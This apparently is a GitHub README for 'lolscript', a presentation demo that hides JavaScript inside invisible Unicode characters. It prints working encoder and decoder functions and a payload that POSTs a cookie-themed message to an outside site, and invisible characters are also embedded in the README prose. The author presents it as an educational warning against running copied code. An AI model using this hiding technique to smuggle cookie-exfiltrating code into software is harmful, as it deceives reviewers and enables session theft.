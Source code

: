 # lolscript
Perception Exploit - OR - Why you should NEVER EVER EVER copy paste and exectue someone else's code.

written󠄠󠄨󠅬󠅡󠅴󠅥󠄠󠅬󠅡󠅳󠅴󠄠󠅮󠅩󠅧󠅨󠅴󠄩 by **James0x57** for a Character Encoding presentation at [Bitovi](https://www.bitovi.com/) 

-------

Take a look at **lol.js**; *What do you think it does?*

What if I told you it creates and sends a POST request with your cookie information to my attack site?

lol

It does󠅮󠄧󠅴.

--------

In its current obfuscation, the `lolscript` (lol.js) will only run on Little Endian machines.

To run it on Big Endian machines, change the Chinese(?) characters on lines 5 and 6 to `"畮"` and `"敳捡灥"` respectively.

Here's a bit of data to help see part of what's going on:
```
BIG ENDIAN
bitovi   62 69  74 6F  76 69
扩瑯癩    6269   746F    7669

LITTLE ENDIAN
扩瑯癩    6962   6F74    6976
ibotiv   69 62  6F 74  69 76

BIG ENDIAN
楢潴楶    6962   6F74    6976

LITTLE ENDIAN
bitovi   62 69  74 6F  76 69
```

--------

And finally, here’s the functions to encode and decode the hidden stuff. Be nice. Have fun. Show me your awesome
```js
var encoder = function (visibleChar, hiddenMessage) {
  return visibleChar + unescape(hiddenMessage.replace(/./g, function (x) { return "%uDB40%uDD" + x.charCodeAt(0).toString(16); }));
};
var decoder = function (msg) {
  return unescape(escape(msg).replace(/uDB40%uDD/g,[]));
};
```
and this is the payload in `lolscript`:
```js
"l" + encoder("o", `var xhr = new XMLHttpRequest(); xhr.open("POST", "https://bitovi.com/", true); xhr.send(JSON.stringify({ "document.cookie": "this easily could have been your session information. <3" }));`) + "l"
```

Note: It doesn't actually send the cookie info because it's a demo. But it is fewer characters to do that than to write the message I'm sending instead.

Also, bitovi.com isn't an evil attack site. Obviously.



<sub>[inspired by Stefan Judis](https://www.stefanjudis.com/blog/hidden-messages-in-javascript-property-names/)</sub>
